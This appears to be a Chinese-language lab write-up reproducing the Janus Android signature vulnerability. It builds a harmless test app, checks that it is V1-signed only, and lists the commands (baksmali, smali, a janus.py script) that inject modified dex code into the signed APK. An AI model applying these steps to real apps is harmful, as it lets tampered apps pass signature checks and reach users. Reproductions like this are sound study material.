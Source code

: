 # Android
> 漏洞复现：仅描述具体的复现过程，关于Janus漏洞原理和复现详情：https://drag0nf1y.github.io/
Janus漏洞复现：
## 复现过程
### 材料准备

#### 创建原始APP
MainActivity.java
```java
package com.example.a;

import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.Toast;

public class MainActivity extends AppCompatActivity implements View.OnClickListener{

    private Button button;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        button = (Button) findViewById(R.id.button);
        button.setOnClickListener(this);
    }

    @Override
    public void onClick(View v) {
        Toast.makeText(getApplicationContext(),"I am QT!!!",Toast.LENGTH_LONG).show();
    }
}
```
activity_main.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<android.support.constraint.ConstraintLayout
    xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".MainActivity">

    <Button
        android:id="@+id/button"
        android:layout_width="117dp"
        android:layout_height="57dp"
        android:layout_gravity="center_horizontal"
        android:text="button"
        tools:ignore="MissingConstraints"
        tools:layout_editor_absoluteX="138dp"
        tools:layout_editor_absoluteY="324dp" />
</android.support.constraint.ConstraintLayout>
```
编译后，使用V1签名，而不使用V2签名：
![af48e55567fb80601a86476d4dd3cd88.png](en-resource://database/2617:0)
#### 检查原始APP
```c
C:\Users\伊木\Desktop\工具集\moblietools>java -jar GetAPKInfo.jar app-release.apk
执行结果: 成功
应用信息:
  包名: com.example.a
  版本名: 1.0
  版本号: 1
  签名文件MD5: 81d388301593097620b9e80d01a22a42
  SDK版本:
      minSdkVersion:22
      targetSdkVersion:28
  V1签名验证通过: true
  使用V2签名: false
  V2签名验证通过: false
  使用V3签名: false
  V3签名验证通过: false
  签名验证详细信息: {"ret":0,"msg":"","isV1OK":true,"isV2":false,"isV2OK":false,"isV3":false,"isV3OK":false,"keystoreMd5":"81d388301593097620b9e80d01a22a42"}
```
可见刚刚所编译得到的app是V1签名的，而不是V2签名的。
接下来进行攻击。

### 攻击过程
* apk直接解压得到dex文件

* 反编译dex文件
```c
java -jar baksmali-2.3.3.jar d classes.dex
```
得到的out文件中：
android/
androidx/
com

源文件在包com.example.a中。
* 修改源文件中，我们需要修改的部分，在这里我修改了字符串

* 重新打包得到dex
```c
java -jar smali-2.3.3.jar assemble out
```
在目录下重新生成out.dex
* 将dex放入原Janus.apk里
```c
python janus.py out.dex app-release.apk fake.apk
```
### 演示
